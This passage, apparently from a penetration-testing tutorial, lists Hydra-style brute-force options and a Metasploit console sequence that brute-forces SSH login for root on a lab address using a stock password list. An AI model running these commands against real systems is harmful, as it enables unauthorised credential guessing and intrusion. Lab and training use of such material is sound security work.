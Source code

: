 -l ⇒ username

-P ⇒ password list

-t ⇒ thread

-V ⇒ verbosity

OR

```jsx
>msfconsole
> search ssh
> use 48
> set rhosts 192.168.1.109
> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
> set username root
> exploit
```
